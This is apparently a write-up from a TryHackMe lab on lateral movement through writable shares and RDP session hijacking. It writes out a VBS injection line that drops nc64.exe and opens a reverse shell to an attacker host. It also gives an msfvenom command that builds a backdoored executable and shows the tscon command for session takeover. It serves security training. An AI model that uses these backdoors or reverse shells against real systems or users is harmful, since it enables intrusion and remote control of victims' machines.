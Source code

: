 # Abusing user behaviour

## Writable Shares

* Discover a globally writable share
* Discovers credentials that allow access to a writable share

As the share is enumerated, there are scripts or executable files on the server that may be run by several users. 
When a user runs the executable:

* A copy of the script/executable is made to a temporary directory on the user's computer
* The executable is run on the user's computer – not the server hosting the share

This increases the attack surface for anyone with access to the share and executable files.

### Backdooring .vbs Scripts

If the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following 
code in the shared script:

    CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\FILE-SERVER-IP\share_name\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <IP address attack machine> 80", 0, True

If a user runs this from the file share, the script will:

* Copy nc64.exe from the file server to the user's temporary directory
* Give a reverse shell by executing nc64.exe and connecting to the attacker's IP address on a specified port.

### Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, it can be downloaded from the share and be injected with a 
backdoor (msfvenom makes it easy):

* Copy the binary from the file share to the attack machine
* Use it as a template to create an imposter
* Place the imposter on the file share
* Start a listener and wait for it

Create a malicious binary (noticeable by AV by the way):

    msfvenom -a x64 --platform windows -x /tmp/filename.exe -k -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=80 -b '\x00' -f exe -o filename.exe

## RDP Session hijacking

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, the 
session will remain open on the server indefinitely. With SYSTEM privileges on Windows Server 2016 and earlier, you 
can take over any existing RDP session without requiring a password. On Windows Server 2019 and newer, the attacker 
must know the password used to create the RDP session.

Logged in as the `Administrator` and running a shell as `NT AUTHORITY\SYSTEM`:

    C:\> query user
     USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
    >administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
     luke                                    3  Disc            .  4/6/2022 6:51 AM

For a RDP session that was not cleanly logged off and is suspended, attach it to the existing session, for example:

    tscon 3 /dest:rdp-tcp#6

## Flag

* Get a new set of credentials from http://distributor.za.tryhackme.com/creds_t2.
* Connect to THMJMP2 via RDP
* hijack `t1_toby.beck`'s RDP session on THMJMP2 to get your flag. Hijack a session marked as disconnected (Disc.) 
to avoid interfering with other users.

